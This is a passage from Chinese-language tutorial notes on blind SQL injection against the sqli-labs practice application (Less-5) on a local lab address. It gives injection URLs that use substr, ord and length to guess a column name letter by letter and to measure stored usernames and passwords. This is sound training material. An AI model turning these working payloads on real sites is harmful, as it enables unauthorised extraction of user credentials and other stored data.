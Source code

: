 如何猜测第三列第三个字母？

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ord(substr((select%20column_name from information_schema.columns where table_schema='security' and table_name='users' limit 2,1),3,1))=115--+

![img](assets/TY9EaiZBz68SxNJ.jpg) 

#### 3.3.5.10.**猜测某字段数据的长度**

判断username中第一行数据的长度，username第一行是dumb是4位，所以返回页面的正常的。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and length((select username from security.users limit 0,1))=4--+

![img](assets/6edK5LEFZh9YiBf.jpg) 

判断password中第二行数据的长度，password第二行是admin是5位，所以返回页面的正常的。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and length((select password from security.users limit 1,1))=5--+

![img](assets/ABCDjGynlZRNIhe.jpg) 
